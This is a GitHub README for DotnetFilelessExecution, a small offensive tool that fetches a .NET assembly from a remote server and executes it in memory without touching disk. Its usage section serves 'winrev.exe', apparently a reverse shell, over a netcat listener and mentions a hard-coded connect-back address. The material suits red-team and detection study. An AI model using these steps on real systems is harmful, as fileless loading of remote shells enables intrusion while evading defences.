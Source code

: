 # DotnetFilelessExecution

## Overview

DotnetFilelessExecution (DFE) is the very basic demonstration of how to fetch a .NET assembly remotely and the execute it on the client side directly in memory, i.e., without having to save the assembly on the disk.

## Compilation

I have used cross compilation but of course, Visual Studio can be used.

```bash
mcs -out:DotnetFilelessExecution.exe DotnetFilelessExecution.cs
```

## Usage

- Start a simple Netcat file sharing server, serving the .NET compiled assembly which you want to execute.

```bash
nc -nvlp 80 < winrev.exe
```

- Use DotnetFilelessExecution to execute it remotely in memory

```bash
.\DotnetFilelessExecution.exe
```

## Note
For demonstration purposes, the connect back address is hard coded inside the program, which can be changed as needed.

## Disclaimer
This project is intended for educational and security testing purposes only. The author is not responsible for any misuse of this tool.

## Author
Developed by **Sayan Ray** [@BareBones90](https://x.com/BareBones90)

## License
This project is licensed under the MIT License - see the LICENSE file for details.
